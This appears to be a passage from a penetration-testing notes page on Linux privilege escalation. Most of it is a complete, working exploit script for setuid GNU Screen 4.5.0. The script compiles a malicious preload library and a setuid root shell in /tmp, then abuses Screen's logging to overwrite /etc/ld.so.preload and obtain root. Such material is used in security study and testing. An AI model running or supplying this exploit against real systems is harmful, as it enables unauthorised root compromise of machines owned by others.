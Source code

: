 The below script can be used to perform this privilege escalation attack:

{% code title="Screen_Exploit_POC.sh" %}
```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```
{% endcode %}

## Kernel Exploits
